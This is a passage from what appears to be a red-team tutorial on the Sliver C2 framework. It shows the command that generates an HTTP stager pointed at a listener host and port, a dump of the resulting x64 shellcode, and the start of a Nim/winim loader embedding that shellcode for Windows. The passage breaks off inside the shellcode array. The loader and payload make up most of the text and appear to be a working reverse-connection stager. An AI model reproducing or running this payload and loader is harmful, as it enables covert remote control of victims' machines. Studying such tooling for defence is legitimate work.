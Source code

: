 Now we're ready to create our stager. This can be done with the ```generate stager``` command. A local host and port should be specified to know where the stage listener is.  

```
sliver > generate stager --lhost 198.18.103.68 --lport 80 --protocol http --save /tmp

[*] Sliver stager saved to: /tmp/NEAT_SNOWPLOW
```  

If this results in an RPC error it is likely that Sliver's payload generator is out of date. The error can be resolved by updating Kali with the commands `sudo apt update`, followed by `sudo apt upgrade`.

With the stager generated, we can take a look at the results:  

```
┌──(kali㉿kali-vle)-[~]
└─$ cat /tmp/NEAT_SNOWPLOW 
unsigned char buf[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
"\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52"
...
"\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5"
```

Sliver as of now won't generate anything that can just be double-clicked. Something to run shellcode needs to be built. This can be accomplished in a near infinite amount of ways. One method is demonstrated below.  

### Creating the stager  

[Nim](https://nim-lang.org/) can be used to create the stager. Nim is a statically typed compiled programming language that resembles Python and compiles to C, C++ and even JavaScript. 

This method uses Nim's [Winim](https://github.com/khchen/winim) library that allows easy access Windows API definitions. It can be installed it with the command ```nimble install winim```  

```
import winim/lean

when defined(windows):

    var shellcode: array[511, byte] = [
        byte 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52
    ,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52
    ,0x20,0x51,0x56,0x48,0x0f,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9
    ,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41
    ,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48
    ,0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b
    ,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x8b,0x48
    ,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0x50,0xe3,0x56,0x48,0xff,0xc9,0x41
    ,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0x41,0xc1,0xc9
    ,0x0d,0xac,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45
    ,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b
    ,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x41,0x58
    ,0x48,0x01,0xd0,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48
    ,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9
    ,0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,0x00
    ,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,0xe5
    ,0x49,0xbc,0x02,0x00,0x1e,0x61,0xc6,0x12,0x67,0x44,0x41,0x54,0x49,0x89,0xe4
    ,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68
    ,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a
    ,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89
    ,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5
    ,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba
    ,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,0xe5
    ,0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9
    ,0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5
```